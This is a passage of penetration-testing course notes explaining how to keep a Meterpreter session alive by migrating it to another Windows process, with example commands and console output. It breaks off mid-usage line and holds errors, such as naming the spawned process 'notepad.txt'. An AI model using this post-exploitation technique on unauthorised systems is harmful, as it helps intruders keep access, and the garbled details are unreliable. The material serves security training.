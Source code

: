 ###### 6.2.1.1 Stable
One of the main issues when you get a meterpreter session on the target, is that the end user can kill the exploited process.
  It can happen, for example, when you exploit a client-side vulnerability through the web browser and the user just closes the web browser window.

  To avoid losing the session on the target, one of the first tasks to perform is to migrate the session to another process.

**Helpful commands**
  Before seeing the migrate command, it is useful to know that giving `help` command in meterpreter, or simply typing `?` and hitting enter, will list all commands and options.

  Moreover, we have very useful meterpreter scripts that we can execute during this phase of our penetration test.
    We can list them by typing `run` and then pressing `Tab` twice.

Back to our goal of making our session stable.
To let Metasploit automatically migrate to another process, you can use the following command (on Windows machine):
  ```
  run post/windows/manage/migrate
  ```
  Example:
    ```
    meterpreter > getpid
    Current pid: 2168
    meterpreter > run post/windows/manage/migrate

    [*] Running module against ELS
    [*] Current server process: win10.exe (2168)
    [*] Migrating to 1564
    [*] Successfully migrated to process 1564
    meterpreter > getpid
    Current pid: 1564
    meterpreter >
    ```

  As you can see, the meterpreter script automatically migrated to another process. It is important to know that the process on which it will migrate will always be a process with the same privileges as the current session and that the process name is `notepad.txt`.

  If we want to see the list of all process running on the machine we can execute the `ps` command (even if it is a Windows machine)

  Tip:
    Although the previous command works just fine, we can directly run `migrate` in the meterpreter session. This time however, we have to provide the process ID or the process name we want to migrate to.

    It will not automatically create and migrate to a new process.

    ```
    meterpreter > migrate -h
    Usage: migrate <<pid> | -P <pid> | -N <name>> [-t timeout]
